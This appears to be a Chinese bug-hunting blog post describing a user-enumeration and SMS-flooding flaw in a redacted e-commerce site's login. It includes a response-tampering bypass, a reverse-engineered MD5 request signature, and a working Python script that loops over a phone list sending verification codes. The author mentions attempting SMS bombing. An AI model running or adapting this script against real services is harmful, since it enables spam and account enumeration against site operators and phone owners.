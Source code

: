```yaml
---
layout:     post
title:    一例遍历手机号发送验证码
subtitle:   遍历手机号发送验证码问题
date:       2020-09-07
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 漏洞挖掘
    - 搬砖
---
```

# 一例遍历手机号发送验证码

## 起因
搬砖的时候收集的资产中有这么一个站点，测了下发现存在遍历手机号发送验证码问题，但是人家不收，就记~~仇~~了下来。  



## 过程
是一个电商公众号的web，看到登录就里面的注册，忘记密码，就想有戏了。  
![200907_1](/img/200907_login.jpg)  
第一个问题，前端绕过。  
![200907_2](/img/200907_check.jpg)  
这里的验证码就没用，直接绕过，本身是会对手机号进行一次校验，看是否注册。  
修改返回包的内容为1，直接进入到重置密码页面，后面尝试绕过就不行了，后面还是有校验的。  
![200907_3](/img/200907_bypass.jpg)  
然后测试下验证码发送。  
![200907_4](/img/200907_sendcode.jpg)  
发现后面带了一串时间戳，签名之类的东西，看起来不复杂，可以用脚本直接写。查看下页面的js源码。  
![200907_5](/img/200907_sourcecode.jpg)  
比较简单，生成一个随机6位数，时间戳，md5加密，脚本实现不难。      
## 脚本
```python
import requests
import time
import random
import hashlib




if __name__ == '__main__' :



    headers ={
        "User-Agent": "Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Mobile Safari/537.36",
        "Origin": "http://xxxx.cn",
        "Referer": "http://xxxx.cn/gotonext.html?mobile=13588888888",
        "Accept-Encoding": "gzip, deflate",
        "Cookie":"xxxxxxx"
    }

    t = int(time.time() * 1000)
    nonce = str(int(round(random.random(), 6) * 1000000))
    if len(nonce) < 6:
        nonce = "0" + nonce

    file = open("./phoneNum.txt", "r")
    for phonenum in file:
        t = int(time.time() * 1000 + random.random()*10*1000000000)
        nonce = str(int(round(random.random(), 6) * 1000000))
        if len(nonce) < 6:
            nonce = "0" + nonce

      

        requrl = "http://xxx.cn/sendmobilecode.htm?timestamp=" + str(t) + "&nonce=" + nonce + "&sign=" + hashlib.md5((nonce + str(t)).encode()).hexdigest()
        data = {
            "mobile": phonenum
        }

        r = requests.post(url=requrl, data=data, headers=headers)
        print(r.content)


```  

## 测试
准备了一个字典，跑一下，有几条会错误，大多能成功，尝试短信轰炸发现手机号单日有次数限制就放弃了。  
![200907_6](/img/200907_run.jpg)   
转码下，能遍历注册信息。  
![200907_7](/img/200907_str.jpg)   

